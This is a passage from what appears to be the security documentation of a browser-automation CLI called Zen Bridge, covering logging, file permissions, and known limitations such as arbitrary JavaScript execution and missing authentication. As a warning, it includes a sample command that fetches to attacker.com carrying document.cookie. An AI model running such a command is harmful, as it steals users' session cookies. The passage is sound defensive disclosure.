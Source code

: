 ```json
{
  "control": {
    "verbose": true,
    "speak-all": true,
    "verbose-logging": false
  }
}
```

No API keys, tokens, or passwords required.

#### No Secrets in Logs or Output

- Server logs connection events only
- No sensitive page data logged
- Error messages sanitized to avoid leaking user data
- Request IDs are UUIDs (not predictable)

#### File Permissions Follow OS Defaults

- No special file permissions required
- Config file readable/writable by user only
- Scripts use standard package installation permissions

## 5. Known Limitations

### Arbitrary JavaScript Execution

**By design**: Zen Bridge executes arbitrary JavaScript code in your browser.

**Implications**:
- Malicious scripts can steal session cookies
- Scripts can submit forms, make purchases, send emails
- Scripts can read sensitive page content
- Scripts can modify the DOM, inject content
- Scripts can make network requests to external servers

**Mitigation**:
- Only run JavaScript you trust and understand
- Review scripts before execution
- Use browser DevTools to inspect script behavior
- Test scripts on non-sensitive pages first

**Example attack vector**:
```bash
# Malicious script steals cookies
zen eval "fetch('https://attacker.com/steal?cookies=' + document.cookie)"
```

**Defense**: Review all code before execution. Don't run untrusted scripts.

### No Authentication

**Current status**: No authentication mechanism between CLI and server.
